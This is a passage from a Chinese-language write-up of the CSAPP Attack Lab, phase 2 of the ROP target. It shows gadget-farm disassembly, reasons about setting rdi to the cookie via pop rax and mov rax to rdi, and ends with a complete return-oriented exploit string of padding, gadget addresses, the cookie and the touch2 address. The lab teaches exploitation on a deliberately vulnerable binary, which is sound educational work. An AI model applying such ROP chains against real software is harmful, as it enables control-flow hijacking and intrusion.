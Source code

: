 ```asm

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```

2. rdi要如何设置为cookie
3. 如何跳转到touch2

我将所有可以用的指令都高亮了出来, 根据提示, 我们只需要只用Figure A和Figure B中的指令即可. 这里能够修改的rdi的只有:

```asm
mov $rax, $rdi
```

那问题转到\$rax了,再看能修改\$rax的:

```asm
mov $rsp, $rax 
pop $rax
```

显然,用pop的概率更大.

pop是将\$rsp当前指向的数据  pop 到 \$rax 上, 所以我们可得gaddget如下图:

![image-20200721093518556](https://cdn.jsdelivr.net/gh/ravenxrz/PicBed/img/image-20200721093518556.png)

知道这些, 我们只用到 rtaget的gaddgets_farm中找到对应的指令字节码即可, 最终可得:

```asm
/* 先填充40个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
/* 写入gadgets */
ab 19 40 00 00 00 00 00 /* pop $rax */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* mov $rax,$rdi */
ec 17 40 00 00 00 00 00 /* touch2 地址 */
```
